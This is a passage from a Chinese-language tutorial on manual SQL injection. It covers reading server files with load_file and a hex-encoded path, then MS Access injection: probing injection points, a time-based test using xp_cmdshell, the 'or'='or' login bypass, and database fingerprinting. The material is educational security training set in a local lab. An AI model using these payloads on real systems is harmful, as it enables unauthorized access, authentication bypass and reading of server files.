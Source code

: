 ![在这里插入图片描述](https://images.gitbook.cn/314ea160-c654-11e9-b4a2-dd4e61833115)
七、读文件
```
id=-1 union select load_file(c:\boot.ini)
这个时候就有问题了，由于前面提到的转义的问题，这里 ‘ 和 \ 会被转义，导致
路径错误。我们上面提到了 ASCII 码的思路，这里我们使用十六进制进行绕过。
将 'c:\boot.ini' 转换成十六进制 
	--> 0x633A5C626F6F742E696E69
id=-1 union select load_file(0x633A5C626F6F742E696E69)
```
![在这里插入图片描述](https://images.gitbook.cn/12d8d1f0-c655-11e9-863a-efd6ae74ec5e)
## 0x03 Access 数据库手工注入
##### MS Access 概述及教程
Microsoft Access是来自Microsoft的数据库管理系统（DBMS），它将关系Microsoft Jet数据库引擎与图形用户界面和软件开发工具相结合。它是Microsoft Office套件应用程序的成员，包括在专业和更高版本中。

详见如下链接：
https://www.w3cschool.cn/ms_access/ms_access_overview.html
##### 本地实验环境![](https://images.gitbook.cn/a0a76b20-c684-11e9-863a-efd6ae74ec5e)
##### Access 手工注入
```
由于上述已经对 MySQL 数据库手工注入做过详细介绍，而不同数据库注入流程大同小异,
我们熟悉了流程之后重点需要放在各数据库独有系统函数及其特性，由此获取数据。下面
其他数据库手工注入流程原理不再过多阐述。
```
一、注入成因：不仅仅是 Access 数据库注入，注入问题及大部分 web 安全漏洞都是由于对用户输入的字符没有或过滤不严。
二、判断注入点
```
注入点如下形式：
	www.xx.com/a.asp?id=1
进而判断：
	id=1 and 1=1
	id=1 and 1=2
如果服务器返回页面没有差异的话，我们可以借助基于时间的注入置于逻辑表达式
打个比方：假设对 MSSQL 数据库进行注入
	and:逻辑与: A AND B IF(systemuser='sa' + xp..cmdshell "ping localhost")
	意思是如果数据库系统用户如果是 sa ，则进行 ping 操作，此时在浏览器虽然看不出页面
	差异，但是服务端返回页面会非常慢，以此在时间上体现出来。
	or:逻辑或:同样我们可以进行上述方法判断
```
观察下图 URL，符合我们熟知的基本注入点形式，然后我们对其进行测试。![](https://images.gitbook.cn/061a07b0-c685-11e9-b4a2-dd4e61833115)![](https://images.gitbook.cn/4b63c310-c685-11e9-b4a2-dd4e61833115)![](https://images.gitbook.cn/7f0efef0-c685-11e9-b1d0-e193f39e1860)
观察页面差异可见能够执行逻辑，存在注入
三、万能口令: 'or'='or'
```
常见的登录查询语句:
select * from admin where username='$username' and password = '$password';
当我们插入 'or' = 'or' 时:
select * from admin where username=''or'='or'' and password = '$password';
我们来划分更明显的看一下:
select * from admin where username=''   or   ' = '    or   ''   and password = '$password';
select * from admin where username=''   or  2>1    or   ''   and password = '$password';
```
四、判断数据库类型
```
常用的我们可以加单引号，如果有报错信息可能会显示数据库类型
另一种方法：
	and (select count(*) from 数据库独有表名)>0;
各数据库独有的数据表，带入查询，若跟 1=1 返回页面相同，也就是正常返回的页面，则说明
是该数据库独有表所属类型数据库
```